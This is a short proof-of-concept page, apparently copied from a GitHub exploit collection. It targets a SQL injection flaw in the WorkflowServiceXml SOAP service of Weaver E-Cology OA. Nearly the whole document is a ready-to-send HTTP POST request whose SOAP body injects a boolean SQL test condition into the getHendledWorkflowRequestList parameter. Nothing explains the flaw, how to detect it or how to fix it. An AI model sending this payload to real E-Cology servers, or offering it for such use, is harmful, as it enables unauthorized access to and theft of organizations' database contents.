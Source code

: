 # ecology_WorkflowServiceXml_sqli

from: https://github.com/wy876/POC/blob/main/%E6%B3%9B%E5%BE%AEOA-E-Cology%E6%8E%A5%E5%8F%A3WorkflowServiceXml%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md

```
POST /services/WorkflowServiceXml HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Content-Type: text/xml
Accept-Encoding: gzip
Content-Length: 487

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://webservices.workflow.weaver"> <soapenv:Header/>
  <soapenv:Body>
      <web:getHendledWorkflowRequestList>
        <web:in0>1</web:in0>
        <web:in1>1</web:in1>
        <web:in2>1</web:in2>
        <web:in3>1</web:in3>
        <web:in4>
            <web:string>1=1 AND 5615=5615</web:string>
        </web:in4>
      </web:getHendledWorkflowRequestList>
  </soapenv:Body>
</soapenv:Envelope>
```
